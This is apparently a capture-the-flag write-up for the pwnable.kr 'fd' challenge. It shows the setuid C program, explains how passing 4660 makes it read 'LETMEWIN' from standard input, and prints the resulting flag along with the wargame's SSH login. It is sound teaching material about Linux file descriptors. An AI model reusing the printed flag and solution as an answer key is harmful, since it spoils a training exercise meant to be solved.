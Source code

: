 # fd

![](http://pwnable.kr/img/fd.png)

# Problem

> Mommy! what is a file descriptor in Linux?
>
> * try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
> https://youtu.be/971eZhMHQQw
>
> ssh fd@pwnable.kr -p2222 (pw:guest)

# Play

```
fd@ubuntu:~$ ls -l
total 16
-r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
-r--r----- 1 fd_pwn root   50 Jun 11  2014 flag
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

1. Note *setuid* on binary `fd`, and access rights for `flag`
2. compare with a read string `"LETMEWIN"`
3. `0` is for `STDIN_FILENO` by default, so we enter `4660` in decimal (`0x1234` in heximal)

```
fd@ubuntu:~$ ./fd 4660 #0x1234
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

# Flag

```
mommy! I think I know what a file descriptor is!
```
